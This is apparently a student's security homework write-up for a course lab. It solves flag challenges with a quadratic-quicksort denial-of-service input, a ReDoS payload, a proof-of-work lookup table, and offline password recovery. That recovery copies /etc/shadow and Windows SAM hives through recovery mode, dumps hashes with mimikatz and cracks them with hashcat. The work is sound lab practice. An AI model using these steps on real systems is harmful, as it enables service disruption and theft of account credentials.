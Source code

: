 ```yaml
---
typora-root-url: pics
---
```


# NASA HW5

b09902004 郭懷元

# Security



## 2. Proof of Work & DoS 



### 3.

> Refs:
>
> b09902011 陳可邦

Flag: `HW5{c4ts_ar3_a_1ot_cut3r_th4n_柴魚}`

Be reading `server.py`, we know that the flag will be shown if `qsort()` runs slow enough, and the implementation chooses pivot from the middle of the array. Therefore we can construct an input  that forces `qsort()` run in quadratic time. The "evil" input looks something like this: `... 7 5 3 1 2 4 6 ...`

I add the following lines before `interactive(s)` in `example.py`:

```python
case_str = "1"
for i in range(2, 7200):
    if i%2 == 0:
        case_str = case_str+f" {i}"
    else:
        case_str = f"{i} "+case_str
sendLine(s, "1")
print("")
print(recvUntil(s, ': ').decode(), end='')
print("")
sendLine(s, case_str)
print("")
```

Then just run `python example.py`.

---

### 4.

> Refs:
>
> b09902011 陳可邦
> https://medium.com/swlh/exploiting-redos-d610e8ba531

Flag: `HW5{柴魚柴油乾柴烈火火柴砍柴柴米油鹽醬醋茶留得青山在不怕沒柴燒}`

In `server.py`, we can find this regex expression: `^Dear Sophia, (.*柴魚){10,15}.*\. Best wishes, ([a-zA-Z0-9]+ ?)+\.$`. The exploitable part is `([a-zA-Z0-9]+ ?)+`. 

mail: `Dear Sophia, 柴魚柴魚柴魚柴魚柴魚柴魚柴魚柴魚柴魚柴魚. Best wishes, 123456789012345678901234567890@.`

---

### 5.

> Refs:
>
> b09902011 陳可邦

Flag: `HW5{y0u_shou1d_w0rk_unt1l_4.am_wi7h_m3_ev3ry_d4y!}`

Certificate: `1757775784||246.7744634760556||08c0f1498914fcbfdb351c61eff3d84e8a6e11d348f51d38ce69c159233f02c6`

Because `proof_of_work()` the random number fed to hash only ranges from 0 to 2^24-1, we can generate a table to use hashed values to lookup prehashed values.

Codes to generate lookup table:

```python
import json, hashlib
rainbow = dict()

for i in range(2**24):
    hashed_i = hashlib.md5(f'{i}'.encode()).hexdigest()[0:8]
    rainbow[hashed_i] = i

jdata = json.dumps(rainbow)
with open('rainbow.json', 'w') as f:
    f.write(jdata)
```

Added lines in `example.py`

```python
with open('rainbow.json') as json_file:
    rainbow = json.load(json_file)
sendLine(s, "3")
for i in range(10):
    task = recvUntil(s, ': ').decode()
    print(task, end='')
    q = task[-12:-4]
    sendLine(s, str(rainbow[q]))
    print(q, str(rainbow[q]))
```



## 4. 弱密碼

### 1.

> Refs:
>
>b09902011 陳可邦
> https://cccharles.pixnet.net/blog/post/326116524
> https://samsclass.info/123/proj10/p12-hashcat.htm

Flag: `HW5{R3al1y_Da_Y1_:P}`

Getting the hash:

1. Plug in the flash drive and connect it to the VM.
2. Select `Advanced Options` and `Ubuntu, with <kernel info> (recovery)`.
3. In recovery menu, choose `root` to drop to shell.
4. `lsblk` to find flash drive's device name, `mount /dev/<device name> /mnt`.
5. `cp /etc/shadow /mnt`, turn off vm.
6. Remove every line except the line with hank, and keep only the hash. Save it as `ubuntu-hash`.

Cracking the password:

```shell
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/xato-net-10-million-passwords-1000000.txt
./hashcat-6.1.0/hashcat.bin -m 1800 -a 0 ubuntu-hash xato-net-10-million-passwords-1000000.txt
```

- `-m 1800`: Cracking linux's hash for passwords.
- `-a 0`: Dictionary mode.
- `ubuntu-hash`: File containing hash.
- `xato-net-10-million-passwords-1000000.txt`: Dictionary file.

The password is `1qaz2wsx3edc4rfv`. The flag in the desktop image of the vm.

![sec-p4-1](/sec-p4-1.png)

![sec-p4-1-2](/sec-p4-1-2.png)

---

### 2.

> Refs:
>
> b09902011 陳可邦
> https://security.stackexchange.com/questions/157922/how-are-windows-10-hashes-stored-if-the-account-is-setup-using-a-microsoft-accou
> https://miloserdov.org/?p=4129
> https://hashcat.net/wiki/doku.php?id=hashcat
> https://windowsreport.com/how-to-enter-recovery-mode-in-windows-10/

Flag: `HW5{Micro$0ft也大意啦}`

**Getting dump file**

1. Plug in a flash drive with windows installation tools. Plug in another for copying files out.
2. Boot with the windows flash drive, enter recovery mode and open command line.
3. `XCOPY /E /I /D /C C:\Windows\System32\config\SAM E:`, `XCOPY /E /I /D /C C:\Windows\System32\config\SYSTEM E:`, turn off VM.

**Getting hash from dump file**

1. Download `mimikatz` from the github repo.
2. In powershell, run `mimikatz.exe`
3. `lsadump::sam /system:<system file copied from vm> /sam:<sam file copied from vm>`
4. In the output text, the hash looks like this:

```
RID  : 000003e8 (1000)
User : howhow
  Hash NTLM: 674ba145222376d43d4f0a9e3f6f315f
```

**Cracking the hash**

Since we are brute forcing, GPU would help a lot. I start with 8-character passwords then increase the length.

```shell
./hashcat-6.1.0/hashcat.bin -I # check available devices
./hashcat-6.1.0/hashcat.bin -m 1000 -a 3 -d 3 windows-hash -1 ?l?d a?1?1?1?1?1?1?1
./hashcat-6.1.0/hashcat.bin -m 1000 -a 3 -d 3 windows-hash -1 ?l?d a?1?1?1?1?1?1?1?1
```

- `-m 1000`: Cracking NTLM hash.
- `-a 3`: Brute force mode.
- `-d 3`: Specifying GPU to use.
- `windows-hash`: File containing hash.
- `-1 ?l?d`: A customize character set that includes lowercase letters and digits.
- `a?1?1?1?1?1?1?1?1`: A mask for brute forcing. An `a` followed by 8 characters from set `1`.

The password is `apple8787`. The flag is the filenames of files on desktop.

![sec-p4-2-1](/sec-p4-2-1.png)

![sec-p4-2-2](/sec-p4-2-2.png)

---



WiFi password: `0918273645`

















